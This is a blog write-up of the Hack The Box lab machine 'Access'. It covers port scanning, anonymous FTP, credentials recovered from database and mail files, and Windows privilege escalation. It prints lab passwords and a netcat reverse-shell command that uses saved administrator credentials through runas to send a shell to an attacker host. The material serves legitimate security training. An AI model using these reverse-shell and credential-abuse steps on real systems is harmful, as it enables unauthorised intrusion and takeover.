 ```yaml
---
layout: post
title: Hack The Box, Access
tags: [Hack The Box]
---
```

![accesslogo](/boxes/htb/access/accessLogo.PNG)

### i. Port Scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```
### ii. Enumeration
There are three services that are available to enumerate. To start off, we take a look at the http/website on port 80.  
![website](/boxes/access/website.PNG)  
After enumerating this service nothing was found. Next up is port 23 telnet. 

Connecting to telnet gives us a prompt for credentials. Trying a few common credentials didn't work. We will put this on the backburner for now.

Let's take a look at port 21 the FTP service. Nmap indicated anonymous FTP login was allowed and we were able to login and enumerate the FTP server.  
![ftpdirectories](/boxes/htb/access/ftpdir.PNG)  
A file backup.mdb was found in the Backups directory and we download a copy of it.  
![backupfile](/boxes/htb/access/backups.PNG)  
In the Engineer folder there is a file called Access Control.zip and we also transfer it to our machine.  
![accesscontrolfile](/boxes/htb/access/engineer.PNG)  
Trying to unzip the Access Control.zip file we run into password protection. We'll add this to the backburner list and look at the backup.mdb file. The backup.mdb file is a Microsoft Access Database. We transfer it to a Windows virtual machine and open it up.

Within the auth_user table credentials were found:

| username     | password          |
|--------------|-------------------|
| admin        | admin             |
| engineer     | access4u@security |
| backup_admin | admin             |

Trying the credentials via telnet did not work. Using the password `access4u@security` on the Access Control.zip file resulted in successfully extracting a file called Access Control.pst. Running the `file` command tells us this is a Microsoft Outlook PST.

Using the following command convert the pst to a mbox file and read its contents:
```
readpst Access\ Control.pst
cat Access\ Control.mbox
```
Within the mbox file we find an email with another set of credentials:  
![emailcreds](/boxes/htb/access/email.PNG)  
The credentials in the email gave us access to the machine via telnet and the user flag was found.  
![userflag](/boxes/htb/access/user.PNG)
### iii. Privilege Escalation
When performing Windows enumeration one of the things to check for is saved credentials. Running the following command lists any stored credentials:
```
cmdkey /list
```
![storedcreds](/boxes/htb/access/creds.PNG)  
Since stored credentials are available, there are a few options to obtain the root flag. The route we will take is sending ourselves an administrative shell. Within the Kali Linux distribution, you can find precompiled Windows binaries under the following directory:
 ```
 /usr/share/windows-binaries
 ```
 Using impacket's smbserver.py create an SMB share on the attack machine and transfer over a netcat binary.
 ```
 python smbserver.py sharename /share
 
 Copying files onto the victim machine:
 copy \\<ip address>\sharename\nc.exe .
 ```
Next set up a listener on the attack machine to prepare for the incoming shell:
```
nc -nlvp 443
```
Once the listener is setup, send a shell with the following command:
```
runas /user:access\administrator /savecred "cmd /c c:\users\security\nc.exe -nv <ip address> 443 -e c:\windows\system32\cmd.exe
```
The shell is received and is running as an administrative user! You can now capture the root flag!
![rootshell](/boxes/htb/access/rootshell.PNG)



